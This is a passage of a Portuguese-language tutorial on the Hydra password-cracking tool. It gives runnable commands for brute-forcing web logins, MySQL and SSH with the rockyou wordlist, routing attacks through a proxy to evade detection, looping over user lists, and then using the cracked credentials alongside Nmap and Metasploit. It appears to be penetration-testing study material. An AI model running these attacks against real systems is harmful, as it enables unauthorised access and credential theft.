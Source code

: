 ## Evitando Detecção
- Objetivo: Reduzir o risco de o ataque ser detectado.

- Use proxies para ocultar seu endereço IP:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 5 -s 8080 -f http-proxy://192.168.0.26 http-get-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
# Limite o número de threads e aumente o tempo de espera.
```
#

## Ataques a Bancos de Dados
- Objetivo: Testar credenciais em bancos de dados como MySQL ou PostgreSQL.

- Use o Hydra para atacar o MySQL:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.0.26
# Verifique se o Hydra encontrou credenciais válidas.
```
#

## Automatização com Scripts
- Objetivo: Criar scripts para automatizar testes complexos.

- Escreva um script em Bash para iterar sobre várias listas de senhas:

```bash
for user in $(cat users.txt); do
    hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.26
done
# Execute o script e analise os resultados.
```
#

## Análise de Resultados
- Objetivo: Interpretar os resultados gerados pelo Hydra.


- Verifique as credenciais válidas encontradas.

- Use as credenciais para acessar o sistema e realizar testes adicionais.
#

## Integração com Outras Ferramentas
- Objetivo: Combinar o Hydra com outras ferramentas de segurança.

- Use o Nmap para descobrir serviços abertos.

- Use o Hydra para atacar os serviços identificados.

- Use o Metasploit para explorar vulnerabilidades adicionais.
#
